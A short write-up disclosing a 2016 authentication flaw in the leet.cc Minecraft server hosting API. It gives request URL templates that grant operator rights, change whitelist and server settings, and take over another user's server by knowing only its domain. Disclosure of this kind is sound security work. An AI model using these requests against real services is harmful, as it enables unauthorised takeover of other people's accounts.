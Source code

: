 ```yaml
---
title: leet.cc account takeover (old bug)
---
```


<https://leet.cc> is an minecraft bedrock server hosting provider.  
The following bug allowed getting OP just by knowing someone's server domain.

This bug is from 2016 the same time they had their database breached <https://www.databreaches.net/leet-cc-data-hacked-in-february-publicly-dumped/> where someone uploaded a PHP shell to their website... This is from memory I may get stuff wrong.

I would hope it's fixed now 🙂but then this is `leet.cc`.

# Methodology
Reverse engineer the Android app using online apk decompilers and look at the network traffic using <https://www.telerik.com/fiddler> to see if the API did authentication correctly.  
Credit: <https://www.youtube.com/watch?v=LbZqaLKS7V4>

Server IDs (Incremental number) are used to identify what server to act on for the API.  
This could be gotten easily by using `https://leet.cc/verifyServerDomain.php?domain=<domain>`  
The user ID was the user's email address or their device ID which used to be optional.

# The exploit
In order to exploit this one would make a request to:

`https://mainapi.leet.cc/actionNew.php?cmd=<command>&userID=<userID>&params[]=<serverID>&params[]=<commandParameter>&versionCode=176&password=something_secret&client=google-free&k=<Base 64 encoded MD5 Hash of part of the URL>&sys=<Base 64 encoded MD5 Hash of part of the URL>`
No one knows why `k` and `sys` were there.

And now the how to exploit FAQ 🙂
# I want OP!
- `<command>` is `changeOP`
- `<commandParameter>` is your in-game name

# I'm not whitelisted. What should I do?
- `<command>` is `changeWhitelistPlayers`
- `<commandParameter>` is your in-game name

# The server name is missing a duck emoji, no problem!
- `<command>` is `changeServerName`
- `<commandParameter>` is 🦆

# This old login using `/login <password>` is too annoying.
- Just set `setUserRegistration` to off!

# I wanted an account takeover!
Okay send a request to `https://mainapi.leet.cc/serverLogin.php?serverEmail=<attacker email>&serverPassword=<attacker password>&registerServerID=<serverId>&registerUserID=<userId>`
